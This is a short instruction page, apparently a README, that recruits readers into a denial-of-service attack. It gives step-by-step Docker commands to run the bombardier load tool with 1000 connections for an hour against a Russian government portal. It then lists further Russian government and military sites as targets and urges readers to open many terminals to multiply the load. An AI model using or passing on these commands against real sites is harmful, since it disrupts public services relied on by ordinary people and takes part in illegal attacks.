 1.   Download docker - https://www.docker.com/products/docker-desktop

2.   install docker

3.  run terminal 

4.  type in terminal 

5. ```bash
   docker pull alpine/bombardier
   ```

6.  run process for attack 

7. ```bash
   docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
   ```

list other websites:

```bash
https://epp.genproc.gov.ru
https://ach.gov.ru
http://www.scrf.gov.tu
https://mil.ru
```

YOU CAN OPEN PLURAL CMD / terminal windows as you want!
